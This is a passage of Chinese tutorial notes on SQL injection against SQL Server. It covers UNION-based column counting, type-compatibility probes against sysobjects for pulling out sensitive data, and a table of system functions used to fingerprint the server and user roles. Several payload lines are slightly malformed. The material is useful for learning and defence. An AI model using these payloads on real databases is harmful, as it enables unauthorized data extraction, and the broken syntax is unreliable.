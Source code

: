 ```sql
select id,username,password from users where id = 1 union null
union null,null
union null,null,null
```

也可以使用`union 1,2,3`但是这种**可能存在类型兼容问题**。

（2）联合查询敏感信息

```sql
// 如果知道列数为3
id = 5 union select 'x',null,null from sysobject where xtype="U"
id = 5 union select null,'x',null from sysobject where xtype="U"
id = 5 union select null,null,'x' from sysobject where xtype="U"
```

如果语句能正常执行，则证明数据类型兼容，就可以把x替换成SQL语句，查询敏感信息。

**这里提供了整型注入变成字符型注入的思路**



###### 5. 无辜的函数

SQL Server提供了非常多的系统函数，利用这些系统函数可以反问SQL Server系统中的信息，而不需要使用SQL语句查询。

SQL Server常用函数表：

|       函数       | 说明                                                     |
| :--------------: | -------------------------------------------------------- |
|      Stuff       | 字符串截取函数                                           |
|      ascii       | 取ASCII码                                                |
|       char       | 根据ACII码取字符                                         |
|     getdate      | 返回日期                                                 |
|      count       | 返回组中总条数                                           |
|       case       | 将一种数据类型的表达式显式转换为另一个种数据类型的表达式 |
|       rand       | 返回随机值                                               |
| is_srvrolemember | 登录名是否为指定服务器角色的成员                         |

|       @@version       | 查看数据库版本                   |
| :-------------------: | -------------------------------- |
|      suser_name       | 返回用户的登录标识名             |
|       user_name       | 基于指定的标识号返回数据库用户名 |
|        db_name        | 返回数据库名称                   |
| is_member('db_owner') | 是否为数据库角色                 |
|   convert(int,'5')    | 数据类型转换                     |
|                       |                                  |
|                       |                                  |
|                       |                                  |
